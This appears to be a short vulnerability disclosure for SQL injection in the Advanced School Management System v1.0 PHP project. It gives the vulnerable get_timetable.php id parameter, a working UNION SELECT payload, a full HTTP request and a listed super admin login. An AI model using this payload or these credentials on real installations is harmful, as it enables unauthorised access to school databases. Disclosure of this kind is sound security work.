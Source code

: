 # Advanced School Management System v1.0 by itsourcecode.com has SQL injection

Login account: suarez081119@gmail.com/12345 (Super Admin account)

vendors: https://itsourcecode.com/free-projects/php-project/advanced-school-management-system-in-php-with-source-code/

Vulnerability File: /school/model/get_timetable.php?id=

Vulnerability location: /school/model/get_timetable.php?id=,id

[+] Payload: /school/model/get_timetable.php?id=-42%20union%20select%201,database(),3,4,5,6,7,8--+ // Leak place ---> id

Current database name: std_db,length is 6


```sql
GET /school/model/get_timetable.php?id=-42%20union%20select%201,database(),3,4,5,6,7,8--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=kh42r202aj35u61brcutn42s96
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/171970902-bcf8f9ba-8b0b-4d6b-8ae1-ab28cd8deff7.png)
